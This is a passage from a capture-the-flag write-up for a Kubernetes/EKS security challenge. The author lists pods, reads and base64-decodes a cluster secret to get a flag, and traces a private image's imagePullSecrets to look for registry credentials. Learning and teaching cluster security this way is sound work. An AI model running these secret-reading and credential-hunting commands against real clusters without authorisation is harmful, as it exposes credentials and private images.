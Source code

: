 The flag seems to be in `.items[0].data.flag` and is `base64` encoded so we can
decode it as well:

```bash
root@wiz-eks-challenge:~# kubectl get secret -o json|jq '.items[0].data.flag' -r | base64 -d
wiz_eks_challenge{omg_over_privileged_*REDACTED*}
```
First flag found!

This one was definitely a softball but it gets you nice and warmed up on the
platform.

# Challenge 2
The hint for this challenge is:

```
A thing we learned during our research: always check the container registries.

For your convenience, the crane utility is already pre-installed on the machine.
```

The first thing I think of when reading this is that it has something to do
with the registry a pod is living on.   So lets list the pods and see what is
available:

```bash
root@wiz-eks-challenge:~# kubectl get pod
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          36h
```

With only one pod as a target, lets get the image for it:

```bash
root@wiz-eks-challenge:~# kubectl get pod -o json |jq '.items[0].spec.containers[0].image'
"eksclustergames/base_ext_image"
```

So its on standard `docker.io` registry instead of a private one like I was
expecting from the clue.   The second hint was that crane is on the system so
lets use that to pull the image and inspect it:

```bash
root@wiz-eks-challenge:~# crane config eksclustergames/base_ext_image          
Error: fetching config: reading image "eksclustergames/base_ext_image": GET https://index.docker.io/v2/eksclustergames/base_ext_image/manifests/latest: UNAUTHORIZED: authentication required; [map[Action:pull Class: Name:eksclustergames/base_ext_image Type:repository]]
```

Which means this is a private image and we are going to need to get some
credentials to an account that has access to this image. Usually you have to
define a secret for kubernetes to be able to pull from private registries and
since we started off with a secret test first that is where I'm going to go 
next:

```bash
root@wiz-eks-challenge:~# kubectl get pod -o json |jq '.items[0].spec.imagePullSecrets'
[
  {
    "name": "registry-pull-secrets-780bab1d"
  }
]
```
